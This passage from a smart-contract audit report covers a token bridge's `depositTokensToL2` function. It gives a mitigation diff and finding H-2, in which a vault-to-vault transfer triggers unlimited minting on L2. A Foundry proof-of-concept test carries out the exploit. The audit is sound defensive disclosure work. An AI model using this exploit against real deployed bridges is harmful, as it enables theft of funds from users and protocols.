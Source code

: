 **Recommended mitigation**

When passing parameters in the deposit, use `msg.sender` instead of the address `from` to avoid stealing.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Lack of transfer vault to vault makes unlimited minting on L2 

**Description**

Also in `L1BossBridge::depositTokensToL2` function, a transaction passing an arbitrary `from` address to `transferFrom` can occur. If we use address `vault` as parameter the `from`, we will see transaction from `vault` to `vault`. Although this transaction doesn't affect the balance, it causes unlimited minting on L2.

**Impact**

Unlimited minting in L2.

**Proof of Concepts**

Scenario :
 - Let a vault have a balance
 - An attacker deposits to the birdge with the paramater `from` being the address of `vault`
 - Repeat the process continuously
 
```javascript
    function testCanTransferVaultToVault() public {
        address attacker = makeAddr("attacker");
        uint256 vaultBalance = 500 ether;

        deal(address(token), address(vault), vaultBalance);

        console2.log("vault balance before ", token.balanceOf(address(vault)));

        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
        vm.stopPrank();


        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
        vm.stopPrank();
    }
```
